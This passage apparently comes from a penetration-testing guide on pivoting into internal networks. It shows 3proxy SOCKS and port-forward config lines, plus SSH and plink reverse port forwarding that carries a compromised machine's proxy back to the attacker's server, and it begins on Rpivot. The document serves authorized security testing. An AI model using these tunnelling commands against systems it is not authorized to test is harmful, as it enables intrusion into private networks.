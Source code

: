 To run 3proxy as a socks5 proxy at port 1080 put the following line in the config:

`socks -p1080`

Now it's possible to tunnel most of your pentesting tools through this proxy to develop the attack in the internal network. This is just a basic setup which is not very secure. You can play with options to place authentication and/or ip-based access control rules. Go check the full manual here - <https://3proxy.ru/howtoe.asp>.
To tunnel a specific port use the following syntax:

`tcppm <localport> <targethost> <targetport>`

## NAT scenario

This is by far the most common situation I encounter during engagements. The traffic to the target is being forwared on per-port basis. This means that all ports bound other than those being in the port forwarding rules won't be accessible from outside. One possible solution is to initiate a reverse connection. The tools described below will help you with that.

### SSH reverse port forwarding /w 3proxy

This pivoting setup looks something like this:

Run 3proxy service with the following config on the target server:

`socks -p31337`

Create a separate user on the receiving side (attacker's machine). 

`adduser sshproxy`

This user has to be low-privileged and shouldn't have shell privileges. After all, you don't want to get reverse pentested, do ya? :) Edit /etc/passwd and switch shell to /bin/false. It should look like:

```
root:x:0:0:root:/root:/bin/bash
...
sshproxy:x:1000:1001:,,,:/home/sshproxy:/bin/false
...
```

Now connect to your server with the newly created user with `-R` flag. Linux system:

`ssh sshproxy@your_server -R 31337:127.0.0.1:31337`

For windows you will need to upload [plink.exe](http://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html) first. This is a console version of putty. To run it:

`plink.exe sshproxy@your_server -R 31337:127.0.0.1:31337`

The `-R` flag allows you to bind port on the server side. All connections to this port will be relayed to a specified port on the client. This way we can run 3proxy socks service on the client side (compromised machine) and access this port on the attacker's host via ssh `-R` flag. 

### Rpivot

This is my favorite method of traversing NAT connections. [Rpivot](https://github.com/artkond/rpivot) is a reverse socks proxy tool that allows you to tunnel traffic via socks proxy. It connects back to your machine and binds a socks proxy on it. It works just like `ssh -D` but in opposite direction. Server side:
